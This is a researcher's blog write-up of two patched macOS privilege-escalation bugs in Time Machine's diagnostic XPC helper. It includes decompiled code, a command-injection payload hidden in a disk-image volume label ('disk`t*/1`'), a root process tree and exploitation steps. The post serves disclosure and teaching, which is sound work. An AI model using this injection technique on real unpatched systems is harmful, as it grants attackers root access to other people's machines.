


---
layout:	post
title:	"Rootpipe Reborn (Part I): TimeMachine Command Injection"
date:	2019-04-13
image:  img/2019-04-13-rootpipe-reborn-part-i/head.png
desc:   Applying web security tricks to macOS LPE bugs.
---

macOS Mojave 10.14.4 has patched two LPE flaws I reported. They are both userspace XPC logic bugs, simple and reliable to get root privilege escalation, just like the [Rootpipe](https://www.slideshare.net/Synack/stick-that-in-your-rootpipe-smoke-it). This writeup is for the command injection in TimeMachine diagnose extension, which affects 10.12.x-10.14.3.

<https://support.apple.com/en-us/HT209600>

**Since this exploit is easy to understand and 100% reliable, please upgrade to 10.14.4 ASAP.**

This talk revealed some very interesting LPE bugs found in diagnostic tool of the system: [$hell on Earth: From Browser to System Compromise — Black Hat](https://www.blackhat.com/docs/us-16/materials/us-16-Molinyawe-Shell-On-Earth-From-Browser-To-System-Compromise-wp.pdf)

So I started looking at these services:



Functionalities of these helpers are similar. Let's take a closer look at `timemachine.helper`. The interface is extremely simple:

```objc
@interface HelperDelegate :
- (char) listener:shouldAcceptNewConnection:
- (void) runDiagnosticWithDestinationDir:replyURL:
@end
```

It simply takes an `NSURL` as a destination directory to run the command `/usr/bin/tmdiagnose -r -w -f` on it, then copies the file that matches a regular expression to the destination parameter.

```objc
// -[HelperDelegate runDiagnosticWithDestinationDir:replyURL:]

bin = objc_retain(CFSTR("/usr/bin/tmdiagnose"));
args[0] = CFSTR("-w");
args[1] = CFSTR("-r");
args[2] = CFSTR("-f");

// ...
r = objc_retain(CFSTR("\\.(tmdiagnostic|tmdiagnose)(\\.zip)?$"));
err = 0LL;
regex = objc_msgSend(&OBJC_CLASS___NSRegularExpression, "regularExpressionWithPattern:options:error:", r, 1LL, &err);

// ...
v12 = objc_msgSend(&OBJC_CLASS___NSTask, "alloc");
v41 = objc_msgSend(v12, "init");
objc_msgSend(v41, "setLaunchPath:", bin);
objc_msgSend(v41, "setArguments:", v49);
objc_msgSend(v41, "setStandardOutput:", handle);
v13 = objc_msgSend(&OBJC_CLASS___NSPipe, "pipe");
v32 = objc_retainAutoreleasedReturnValue(v13);
objc_msgSend(v41, "setStandardError:", v32);
objc_release(v32);
objc_msgSend(v41, "setTerminationHandler:", 0LL);
objc_msgSend(v41, "launch");
objc_msgSend(v41, "waitUntilExit");
objc_storeStrong(&v52, 0LL);
if (!(unsigned int)objc_msgSend(v41, "terminationStatus") ) {
    v24 = objc_msgSend(
            &OBJC_CLASS___DEUtils,
            "findEntriesInDirectory:createdAfter:matchingPattern:",
            location,
            v48,
            _regex);
    v26 = objc_retainAutoreleasedReturnValue(v24);
    v25 = objc_msgSend(v26, "lastObject");
    v39 = objc_retainAutoreleasedReturnValue(v25);
    objc_release(v26);
    cb->invoke(cb, v39);
}
```

While it doesn't perform any check on the destination, you can put random garbage (the diagnostic logs) to any existing directory without rootless protection. The other helpers have the similar problem. Apple patched this flaw as CVE-2019-8530:

> XPC
>
> Available for: iPhone 5s and later, iPad Air and later and iPod touch 6th generation
>
> Impact: A malicious application may be able to overwrite arbitrary files
>
> Description: This issue was addressed with improved checks
>
> CVE-2019-8530: CodeColorist of Ant-Financial Light-Year Labs

It used to be exploitable combined with a sudo design flaw.

[](https://www.zerodayinitiative.com/advisories/ZDI-16-346/)

[(Pwn2Own) Apple OS X SubmitDiagInfo Arbitrary Directory Creation Privilege Escalation Vulnerability](https://www.zerodayinitiative.com/advisories/ZDI-16-346/)

> Sudo supports a feature where the user does not need to enter the password again for a few minutes after typing the password (and being successfully authenticated). The check was based on the modified time of the /var/db/sudo/{USER_NAME} directory. By setting the SubmitToLocalFolder value to be /var/db/sudo/{USER_NAME} and triggering the vulnerability, it is possible to execute sudo to gain root privileges.This bug can modify the timestamp of the directory by writing into it. Since sudo has been patched long ago, it's now pointless.

But what I want is a root shell!

The flaw resides in thetmdiagnose binary, which is not too hard to reverse. Its implementation is just some external shell commands wrapped in NSTask calls and the terminal output is honest:

    2018-06-24 18:03:46.131 tmdiagnose[15529:a03] Executing `/usr/sbin/spindump -notarget 15 -file /private/var/tmp/cc@ant.tmdiagnostic/system_state_18.03.46/spindump.txt`
    2018-06-24 18:03:48.206 tmdiagnose[15529:1d03] Executing `/usr/bin/fs_usage -w -t 10 -e tmdiagnose`
    2018-06-24 18:04:10.392 tmdiagnose[15529:4d03] Executing `/bin/ps auxh`
    2018-06-24 18:04:10.652 tmdiagnose[15529:4d03] Executing `/usr/bin/top -l 10`
    2018-06-24 18:04:20.631 tmdiagnose[15529:5203] Executing `/usr/bin/powermetrics -i 1000 -n 10 — show-all`
    2018-06-24 18:04:31.227 tmdiagnose[15529:a03] Executing `/usr/bin/sample -file /private/var/tmp/cc@ant.tmdiagnostic/samples/backupd.txt backupd 5`
    2018-06-24 18:04:36.915 tmdiagnose[15529:a03] Executing `/usr/bin/sample -file /private/var/tmp/cc@ant.tmdiagnostic/samples/Finder.txt Finder 5`
    2018-06-24 18:04:42.351 tmdiagnose[15529:1f03] Executing `/bin/ls -la /Volumes/`
    2018-06-24 18:04:42.418 tmdiagnose[15529:1f03] Executing `/bin/df -H`
    2018-06-24 18:04:42.486 tmdiagnose[15529:1f03] Executing `/sbin/mount`
    2018-06-24 18:04:42.556 tmdiagnose[15529:1f03] Executing `/usr/sbin/diskutil list`
    2018-06-24 18:04:42.692 tmdiagnose[15529:1f03] Executing `/usr/sbin/diskutil cs list`
    2018-06-24 18:04:42.760 tmdiagnose[15529:1f03] Executing `/usr/sbin/diskutil apfs list`
    2018-06-24 18:04:42.956 tmdiagnose[15529:1f03] Executing `/bin/bash -c /usr/sbin/diskutil list | /usr/bin/awk '/disk/ {system("/usr/sbin/diskutil info "$NF); print "*********************"}'`
    2018-06-24 18:06:54.482 mddiagnose[15688:1755714] Executing '/usr/local/bin/ddt mds'…
    2018-06-24 18:06:54.485 mddiagnose[15688:1755714] Executing '/usr/local/bin/ddt mds_stores'…
    2018-06-24 18:06:54.485 mddiagnose[15688:1755714] Executing '/usr/local/bin/ddt corespotlightd'…Did you see the bug here?

There are two exploitable bugs.

The executable `/usr/local/bin/ddt` does not exist on a fresh installed mac. The location is not protected by rootless, and the popular package manager [brew](https://brew.sh) explicitly set this directory to world writable. So on a macOS with brew installed (don't you?), a normal user process can overwrite this file and send a XPC message to execute it as root.

Alright, this senario is not the default configuration. What about a privileged command injection?

The `tmdiagnose` calls external commands via `NSTask` api, which is usually considered secure because it does not support shell operators unless you intentionally spawn a shell.

But look at this line, it lists every mounted volumes and find lines that match the pattern `/disk/`, then use the result to compose a new shell command!

```
➜ ~ strings /usr/bin/tmdiagnose | grep awk
# /usr/sbin/diskutil list | /usr/bin/awk '/disk/ {system("/usr/sbin/diskutil info "$NF); print "*********************"}'
```

Is the shell command really controllable?

```
➜ ~ /usr/sbin/diskutil list
/dev/disk0 (internal, physical):
 #: TYPE NAME SIZE IDENTIFIER
 0: GUID_partition_scheme *251.0 GB disk0
 1: EFI EFI 209.7 MB disk0s1
 2: Apple_APFS Container disk1 250.8 GB disk0s2/dev/disk1 (synthesized):
 #: TYPE NAME SIZE IDENTIFIER
 0: APFS Container Scheme - +250.8 GB disk1
 Physical Store disk0s2
 1: APFS Volume Macintosh HD 231.8 GB disk1s1
 2: APFS Volume Preboot 44.5 MB disk1s2
 3: APFS Volume Recovery 517.0 MB disk1s3
 4: APFS Volume VM 4.3 GB disk1s4
```

The only controllable column is the NAME. We can create a disk image (*.dmg) and customize its label by using `-volname` parameter of hdiutil. Mounting such an image does not require root privilege.

But the problem is, the `$NF` variable points to the last column, the IDENTIFIER (e.gdisk1s1), which is impossible to customize.

Just don't give up now. I used to play web challenges in CTFs years ago so I remember there's a trick call [CRLF injection](https://www.owasp.org/index.php/CRLF_Injection). So let's add a line break to the volume name: `hello\nworld`. Now hello is the last column.

```
/dev/disk2 (disk image):
   #:                       TYPE NAME                    SIZE       IDENTIFIER
   0:      GUID_partition_scheme                        +860.2 KB   disk2
   1:                 Apple_APFS hello
world           819.2 KB    disk2s1
```

Volume label also supports special chars like \n\`$, so we can inject the payload here. But whitespaces will be treated as splitter and break the payload. Besides, the label is limited to be shorter than 23 chars (including the NULL terminator), otherwise it'll be truncated:

```objc
if (0x16 < label.length) {
    truncated = [label substringToIndex: 0x13];
    label = [NSString stringWithFormat:@"%@", truncated];
}
```

So the label must:

* have the keyword disk
* have a line break
* use ` or $() to inject shell command
* be shorter than 22 chars
* have no more whitespace except the line break

Since we have bash support now, wildcard comes to the rescue. The working dir is `/`. Use `A*/1` or `t*/1` to execute `/Applications/1` or `/tmp/1`, making the payload as short as possible.

The final payload is disk`t*/1` to execute /tmp/1.

```
|-+= 89190 root /System/Library/PrivateFrameworks/DiagnosticExtensions.framework/PlugIns/osx-timemachine.appex/Contents/XPCServices/timemachinehelper
| \-+= 89191 root /usr/bin/tmdiagnose -W -r -f /tmp
|   \-+= 89488 root /bin/bash -c /usr/sbin/diskutil list I /usr/bin/awk '/disk/ {system("/usr/sbin/diskutil info "$NF): print "*********************"}'
|     \-+- 89490 root /usr/bin/awk /disk/ {system("/usr/sbin/diskutil info "SNF); print "*********************"}
|       \-+- 89506 root sh -c /usr/sbin/diskutil info disk't*/1'
|         \-+- 89507 root sh -c /usr/sbin/diskutil info disk't*/1
|           \-+- 89508 root tmp/1
|             \--= 89527 root /usr/bin/hdiutil eject /dev/disk2
```

> Time Machine
>
> Available for: macOS Sierra 10.12.6, macOS High Sierra 10.13.6, macOS Mojave 10.14.3
>
> Impact: A local user may be able to execute arbitrary shell commands
>
> Description: This issue was addressed with improved checks.
>
> CVE-2019-8513: CodeColorist of Ant-Financial LightYear Labs

This bug can be exploited in the following steps:

* Copy or make a symbolic link of the executable to make payload shorter
* Mount a crafted disk image with shell command payload as its label
* Send XPC request to timemachinehelper and wait

It takes about 2 min to trigger the root command because you have to wait for some time costing commands to finish. Anyways, it's freaking reliable.


